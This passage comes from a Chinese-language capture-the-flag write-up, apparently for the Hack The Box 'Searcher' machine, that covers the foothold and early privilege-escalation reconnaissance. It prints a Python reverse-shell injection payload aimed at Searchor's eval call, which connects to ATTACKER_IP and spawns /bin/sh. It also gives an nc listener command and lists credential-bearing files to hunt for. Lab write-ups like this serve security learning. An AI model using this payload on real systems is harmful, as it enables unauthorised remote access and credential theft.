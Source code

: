 {{< image src="https://image.p1nant0m.xyz/20250617224053728.png" caption="Searchor Exploit PoC" src_s="https://image.p1nant0m.xyz/20250617224053728.png" src_l="https://image.p1nant0m.xyz/20250617224053728.png" >}}

其中的payload如下所示，

```text
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

使用nc在本地监听8080端口等待受害机器回弹shell，

```bash
nc -lnvp 8080
```

-   `-l`: 这个选项告诉`nc`工具要监听（listen）连接，即等待其他主机连接到指定的端口。
-   `-n`: 这个选项禁用主机名解析，只使用IP地址进行通信。
-   `-v`: 这个选项启用详细输出模式，打印更多的调试信息。
-   `-p 8080`: 这个选项指定要监听的端口号，这里是8080。

（这里免去了使用burpsuite的必要，直接向输入框中键入payload即可），最终我们在控制服务器上获得了受害机器回弹的shell，用户是svc。我们在 `/home/svc` 目录下找到了user.txt，获得了我们在普通用户权限下的第一个FLAG！**Well Done！**

**第二阶段：获得root用户权限**

我们以svc用户身份在文件系统中闲逛，搜索潜在的敏感信息以为后续的提权工作搜集信息。一些敏感的目录、文件包括：目标站点运行的工作目录，`/etc/passwd`，`.git`，`.ssh`，数据库文件，日志文件等。

在 `/home/svc` 目录下我们发现了用户的 `.gitconfig` 文件，其中的内容如下所示，

```toml
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
[safe]
        directory = /var/www/app
```

继续跟踪相关的目录，在 `/var/www/app` 目录下我们发现了 `.git` 目录，

{{< image src="https://image.p1nant0m.xyz/20250617224101097.png" caption=".git directory" src_s="https://image.p1nant0m.xyz/20250617224101097.png" src_l="https://image.p1nant0m.xyz/20250617224101097.png" >}}

其中存在config文件，内容如下，

{{< image src="https://image.p1nant0m.xyz/20250617224105670.png" caption="git config" src_s="https://image.p1nant0m.xyz/20250617224105670.png" src_l="https://image.p1nant0m.xyz/20250617224105670.png" >}}

这其中包含了以下信息：

-   cody用户的身份认证信息
-   目标站点的子域名gitea.searcher.htb上运行着gitea服务
